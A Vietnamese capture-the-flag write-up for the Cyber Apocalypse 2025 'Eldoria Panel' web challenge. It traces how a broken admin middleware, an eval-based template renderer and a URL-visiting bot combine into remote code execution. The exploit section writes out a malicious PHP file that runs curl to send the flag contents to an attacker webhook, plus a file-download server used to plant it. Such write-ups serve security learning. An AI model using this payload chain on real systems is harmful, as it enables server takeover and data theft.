






+++
date = '2025-07-15T00:11:00+07:00'
draft = false
title = 'Cyber Apocalypse 2025: Eldoria Panel'
description = 'Khi truy cập trang web, HTML sẽ được render từ server bằng một hàm render() từ triển khai.'
tags = ['write-up']
+++
# Cyber Apocalypse 2025: Eldoria Panel

## Overview

### Các chức năng chính của ứng dụng

* Đăng ký, đăng nhập
* Xem nhiệm vụ
* Nhận nhiệm vụ
* Đăng trạng thái cá nhân

## Phân tích

Khi truy cập trang web, HTML sẽ được render từ server bằng một hàm `render()` từ triển khai.

```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);
    ob_start();
    eval("?>" . $phpCode);
    return ob_get_clean();
}
$app->get('/', function (Request $request, Response $response, $args) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/login.php');
    $response->getBody()->write($html);
    return $response;
});
```

Hàm này thực hiện load nội dụng file và thực thi nó như code PHP → có thể khai thác OS Command Injection nếu thao túng được `$filePath`.

Endpoint `POST /api/admin/appSettings` cho phép sửa các thuộc tính của server, trong đó có `$GLOBALS['settings']['templatesPath']`.

```php
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);
	if (empty($data) || !is_array($data)) {
		$result = ['status' => 'error', 'message' => 'No settings provided'];
	} else {
		$pdo = $this->get('db');
		$stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?) ON CONFLICT(key) DO UPDATE SET value = excluded.value");
		foreach ($data as $key => $value) {
			$stmt->execute([$key, $value]);
		}
		if (isset($data['template_path'])) {
			$GLOBALS['settings']['templatesPath'] = $data['template_path'];
		}
		$result = ['status' => 'success', 'message' => 'Settings updated'];
	}
	$response->getBody()->write(json_encode($result));
	return $response->withHeader('Content-Type', 'application/json');
})->add($adminApiKeyMiddleware);
```

Có thể nghĩ đến khai thác XSS để lấy được cookie/session của admin để truy cập được endpoint trên.

Tại chức năng Nhận nhiệm vụ (`POST /api/claimQuest`), người dùng có thể cung cấp một đường link để cho bot truy cập vào.

```php
$app->post('/api/claimQuest', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);

	[...]

	if (!empty($data['questUrl'])) {
        $validatedUrl = filter_var($data['questUrl'], FILTER_VALIDATE_URL);
        if ($validatedUrl === false) {
            error_log('Invalid questUrl provided: ' . $data['questUrl']);
        } else {
            $safeQuestUrl = escapeshellarg($validatedUrl);
            $cmd = "nohup python3 " . escapeshellarg(__DIR__ . "/bot/run_bot.py") . " " . $safeQuestUrl . " > /dev/null 2>&1 &";
            exec($cmd);
        }
    }
	
	return $response;
})->add($apiKeyMiddleware);
```

Mặc dù URL được nối chuỗi vào `$cmd` nhưng không exploit được do nó đã phải đi qua hàm `escapeshellarg()`

Admin sẽ truy cập đường link này.

```python
try:
    driver.get("http://127.0.0.1:80")
    username_field = driver.find_element(By.ID, "username")
    password_field = driver.find_element(By.ID, "password")
    
    username_field.send_keys(admin_username)
    password_field.send_keys(admin_password)

    submit_button = driver.find_element(By.ID, "submitBtn")
    submit_button.click()

    driver.get(quest_url)

    time.sleep(5)
```

Tại chức năng cập nhật trạng thái của người dùng có lỗ hổng XSS, tuy nhiên thì endpoint `/dashboard` này chỉ hiển thị thông tin cá nhân của người dùng, không thể cho người khác xem được, nên rất khó để có thể khai thác được XSS để lấy cắp session của admin.



Quay lại hàm xử lý thay đổi các thuộc tính settings của hệ thống. Trước khi hàm này được thực thi, nó đi qua một middleware kiểm tra xác thực của admin.

```php
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

Điều đặc biệt là, dù có phải là admin hay không, hay là người dùng có đăng nhập hay không thì request sẽ vẫn được xử lý, do dòng `return $handler->handle($request);` luôn được thực thi.

## Exploit

### Thông qua download file

Tại hàm render HTML, hàm `file_exists()` thực hiện kiểm tra xem file có tồn tại hay không. Tuy nhiên nếu ta thay đổi thuộc tính `templatesPath` và load file từ HTTP server thì hàm `file_exists()` sẽ luôn trả về false và file sẽ không được tải ([docs](https://www.php.net/manual/en/function.file-exists.php#121436)).

Tuy nhiên thì ta có thể sử dụng bot truy cập và tải file chứa mã PHP về.

#### Tải file độc hại thông qua bot

Tạo file chứa mã PHP độc hại (lưu ý đặt tên file giống tên các templates trong src code, ví dụ `dashboard.php`).

```php
// dashboard.php
<?php
	system('curl -d `cat /flag* | base64` <webhook>');
?>
```

Dựng HTTP server cho phép tải file khi truy cập

```php
// index.php
<?php
$file = './dashboard.php';

if (file_exists($file)) {
    // Set headers to force download
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="' . basename($file) . '"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    
    flush();
    
    readfile($file);
    exit;
} else {
    echo "File does not exist.";
}
?>

```





File được tải sẽ nằm tại `/var/www/Downloads/`


Thay đổi thuộc tính `templatesPath`&#x20;



Truy cập vào `/dashboard` để trigger code PHP và nhận được request ở webhook.





### Thông qua protocol `ftp://`

Protocol `ftp://` có thể bypass được hàm `file_exists()` nên ta có thể dựng một FTP server serve file PHP độc hại (có thể nhờ ChatGPT chỉ cho 🤣), sau đó thực hiện thay đổi thuộc tính `templatesPath` thành URL đến FTP server. Các bước sau làm tương tự như trên.

> Nhớ cho phép truy cập anonymous trên server FTP
